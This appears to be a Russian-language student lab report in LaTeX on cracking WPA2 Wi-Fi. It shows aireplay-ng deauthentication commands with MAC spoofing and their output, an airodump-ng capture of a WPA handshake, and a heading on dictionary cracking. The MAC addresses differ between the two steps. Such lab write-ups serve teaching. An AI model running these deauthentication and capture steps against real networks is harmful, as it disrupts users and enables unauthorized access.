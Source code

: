 \documentclass[11pt, a4paper]{article}		%
\begin{document}

\subsection{Произвести деаутентификацию одного из клиентов, до тех пор, пока не удастся собрать необходимых для взлома аутенти-фикационных сообщений}

\begin{verbatim}
aireplay-ng --ignore-negative-one --deauth 150 -a 40:01:C6:CE:C7:C0 -h A4:17:31:7F:B2:3D mon0
The interface MAC (C4:6E:1F:25:4E:9C) doesn't match the specified MAC (-h).
ifconfig mon0 hw ether A4:17:31:7F:B2:3D
04:49:25  Waiting for beacon frame (BSSID: 40:01:C6:CE:C7:C0) on channel -1
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
04:49:25  Sending DeAuth to broadcast -- BSSID: [40:01:C6:CE:C7:C0]
04:49:26  Sending DeAuth to broadcast -- BSSID: [40:01:C6:CE:C7:C0]
04:49:26  Sending DeAuth to broadcast -- BSSID: [40:01:C6:CE:C7:C0]
04:49:27  Sending DeAuth to broadcast -- BSSID: [40:01:C6:CE:C7:C0]
\end{verbatim}


В результате перехватываем пакет handshake:

\begin{verbatim}
airodump-ng mon0 --bssid 1C:7E:E5:39:26:F8 -c 6 
--write dump --ignore-negative-one
CH  6 ][ Elapsed: 1 min ][ 2015-06-03 21:30 ][ WPA handshake: 1C:7E:E5:39:26:F

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH E

1C:7E:E5:39:26:F8  -47 100      880      791    4   4  54e. WPA2 CCMP   PSK  11

BSSID              STATION            PWR   Rate    Lost  Packets  Probes     

1C:7E:E5:39:26:F8  74:E5:43:65:15:F5  -32    0e- 1      0      645  18   
\end{verbatim}


\subsection{Произвести взлом используя словарь паролей}

Так как используемый пароль слишком сложный, в некоторую часть словаря был вставлен искомый пароль.
\end{document}
